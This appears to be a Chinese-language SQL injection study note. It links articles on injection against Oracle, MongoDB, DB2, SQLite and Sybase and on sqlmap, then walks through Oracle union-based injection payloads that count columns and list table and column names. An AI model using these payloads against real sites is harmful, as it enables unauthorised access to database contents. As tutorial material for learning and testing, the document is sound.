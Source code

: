 # 3.9 SQL注入（三）

## 3.9.1 数据库注入-Oracle&Mongodb

[sql注入之Oracle注入 - 拾瑾 - 博客园 (cnblogs.com)](https://www.cnblogs.com/ayoung/p/15329033.html)

[数据库安全之MongoDB渗透 - FreeBuf网络安全行业门户](https://www.freebuf.com/vuls/277847.html)

## 3.9.2 数据库注入-DB2&SQLite&Sybase

[DB2在渗透中的应用(转载) - micr067 - 博客园 (cnblogs.com)](https://www.cnblogs.com/micr067/p/14257664.html)

[sqlite注入基础 - FreeBuf网络安全行业门户](https://www.freebuf.com/articles/web/324124.html)

[习科旧站:sybase_sql注入 [习科小黑板 - Silic Wiki]](https://wiki.silic.wiki/%E4%B9%A0%E7%A7%91%E6%97%A7%E7%AB%99:sybase_sql%E6%B3%A8%E5%85%A5)

## 3.9.3 sqlmap安装使用扩展

[sqlmap的安装及使用教程 - tuuli - 博客园 (cnblogs.com)](https://www.cnblogs.com/tuuli/p/17586592.html)

## 3.9.4 演示案例

### 3.9.4.1 数据库注入-联合猜解-Oracle&Mongodb

- Oracle

[【实战】Oracle注入总结 - Carrypan - 博客园 (cnblogs.com)](https://www.cnblogs.com/peterpan0707007/p/8242119.html)

- 测字段：order by 2

![](https://img2023.cnblogs.com/blog/2504969/202309/2504969-20230912132513431-1649636380.png)

- 爆数字：union select '1','2' from dual

![](https://img2023.cnblogs.com/blog/2504969/202309/2504969-20230912132511105-823880858.png)

- 爆表：and 1=2 union select '1',(select table_name from user_tables where rownum=1) from dual
  记录表名字：LOGMNR_SESSION_EVOLVE$
  但是这样查询过于复杂，不适用，所以有下面的模糊爆库

![](https://img2023.cnblogs.com/blog/2504969/202309/2504969-20230912132510726-1471088798.png)

- 模糊爆表：and 1=2 union select '1',(select table_name from user_tables where rownum=1 and table_name like '%user%') from dual
  记录表名：sns_users

![](https://img2023.cnblogs.com/blog/2504969/202309/2504969-20230912132510915-1113336943.png)

- 爆列名：and 1=2 union select '1',(select column_name from all_tab_columns where rownum=1 and table_name='sns_users') from dual
  爆其他列名：and 1=2 union select '1',(select column_name from all_tab_columns where rownum=1 and table_name='sns_users' and column_name not in ('USER_NAME')) from dual
